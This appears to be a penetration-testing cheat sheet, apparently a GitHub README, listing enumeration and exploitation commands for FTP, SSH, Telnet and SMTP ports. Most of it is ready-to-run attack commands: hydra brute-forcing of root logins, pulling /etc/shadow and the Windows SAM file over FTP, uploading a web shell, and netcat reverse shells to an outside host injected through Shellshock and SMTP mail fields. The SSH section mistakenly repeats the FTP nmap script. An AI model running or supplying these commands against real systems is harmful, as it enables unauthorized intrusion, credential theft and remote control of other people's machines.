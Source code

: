 > Adding constantly content, depending on free time :)

> Instead of writing a list of tasks to perform on each port/service, as [0daysecurity's](http://www.0daysecurity.com/penetration-testing/enumeration.html), I will write the full command with arguments to enumerate and (possibly) exploit it. 
>``$ip`` refers to simply the variable assigned with ``export ip=10.10.10.10`` 
> Remember to **switch** between wordlists if one just doesn't give out results



General
------------
  ##### Enumeration
  * Banner: 
    * `nc -vn $ip [PORT]`
  ##### Exploitation
  * Reuse credentials from other local services
  * ` searchsploit [SERVICE NAME]+[VERSION]`
  
## Common ports
-------------
### 21 (FTP)
  ##### Enumeration
  * Anonymous login
    * ``nmap --script ftp-anon -p21 $ip``
  ##### Exploitation
  * Connect and try to download/upload files (even if you can't ``cd`` into that directory): 
    * ``get /etc/shadow `` 
    * ``get C:\\Windows\\system3\\config\\SAM`` 
    * ``put shell.aspx``
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ftp -t 1``

### 22 (SSH)
  ##### Enumeration
  * Anonymous login
    * ``nmap --script ftp-anon -p21 $ip``
  ##### Exploitation
  * Reuse private key from other machines
  * Shellshock:
    * ``ssh root@$ip 'nc 1.1.1.1 80 -e /bin/bash'``
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ssh``
    
### 23 (Telnet)
  ##### Exploitation
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip telnet -t 1``
    
### 25 (SMTP)
  ##### Enumeration
  * Enum users
    * `smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $ip`
  ##### Exploitation
  * Send mail with malicious parameters: 
    * ``ehlo server.com ``
    ``mail from: 'nc 1.1.1.1 80 -e /bin/bash' ``
    ``rcpt to: 'nc 1.1.1.1 80 -e /bin/bash' ``
    ``data
    Subject: nc 1.1.1.1 80 -e /bin/bash ``
